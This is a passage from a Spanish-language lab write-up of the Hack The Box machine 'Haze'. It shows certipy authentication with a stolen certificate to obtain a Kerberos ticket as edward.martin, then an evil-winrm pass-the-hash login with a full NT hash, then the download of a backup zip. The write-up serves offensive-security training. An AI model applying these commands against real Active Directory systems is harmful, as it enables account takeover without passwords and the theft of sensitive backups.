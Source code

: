 y este es el que ocuparemos con la herramienta de certipy  

```bash
certipy auth -pfx /home/s4nti/Desktop/machines_htb/Haza/script/certificado/QmBfTWEv_nopass.pfx -username edward.martin -domain haze.htb -dc-ip 10.10.11.61 -debug
```

- Usa el certificado generado para solicitar un TGT válido
- Se autentica como edward.martin sin conocer su contraseña

![paste](./images/30.jpeg)

Y nos conectamos 

```bash
evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

y obtenemos la primera Flag

![paste](./images/31.jpeg)

# Administrator pwned 


Ahora con este usuario podemos entrar a la carpeta de backups donde podremos encontrar un .zip y como es un respaldo, por lo general encontramos informacion muy importante, para facilitar las cosas lo descargaremos en nuestra maquina 

 ```bash
 download C.\Ruta\zip
```
